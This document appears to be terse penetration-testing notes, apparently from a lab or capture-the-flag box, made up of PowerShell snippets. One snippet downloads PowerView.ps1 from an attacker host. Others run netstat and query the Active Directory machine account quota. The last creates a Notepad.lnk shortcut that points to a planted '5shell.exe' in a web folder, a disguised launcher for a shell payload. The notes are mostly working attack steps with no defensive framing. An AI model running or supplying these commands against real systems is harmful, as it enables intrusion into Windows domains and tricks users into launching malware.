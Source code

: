```Powershell
Invoke-WebRequest -Uri http://10.10.14.176:8000/PowerView.ps1 -OutFile PowerView.ps1
```

```Powershell
netstat -aon
```

```Powershell
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DSMachineAccountQuota
```

Shortcuts
```Powershell
$targetPath = "C:\xampp\htdocs\5shell.exe"
$shortcutPath = "C:\Common Applications\Notepad.lnk"
$shell = New-Object -ComObject WScript.Shell
$shortcut = $shell.CreateShortcut($shortcutPath)
$shortcut.TargetPath = $targetPath
$shortcut.Save()
```